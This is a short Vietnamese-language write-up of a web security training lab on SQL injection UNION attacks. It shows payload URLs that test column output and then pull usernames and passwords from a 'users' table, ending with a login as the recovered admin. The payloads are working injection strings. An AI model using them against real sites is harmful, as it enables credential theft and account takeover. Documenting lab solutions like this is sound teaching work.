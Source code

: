 ## SQL injection UNION attack, retrieving data from other tables

Ở đây chúng ta đã biết có 2 column như trong như phần description của lab có bảo là sử dụng table là **users** và có 2 trường là **username** và **password**, chúng ta sẽ select bừa các trường giá trị nào đó test thử xem web sẽ load như nào.

> Ví dụ: https://acd51f7e1f13167e80c95424009300ec.web-security-academy.net/filter?+category=Corporate+gifts%27+UNION+SELECT+%27abc%27,%27def%27--

(Chúng ta sẽ thấy 2 trường mà chúng ta select có xuất hiện thêm ở trên list category, chứng tỏ lỗi hiển thị sẽ nằm ở đây)

![](/imgs/SQL-Injection/6.png?raw=true)

Ok web load ổn, chúng ta sẽ tiến hành select username và password từ bảng **users**

https://acd51f7e1f13167e80c95424009300ec.web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+username,password+FROM+users--

![](/imgs/SQL-Injection/7.png?raw=true)

Chúng ta sẽ thu được 3 user là wiener, admin và carlos.
Vào phần My Account và Login vào sẽ solve lab.

![](/imgs/SQL-Injection/8.png?raw=true)

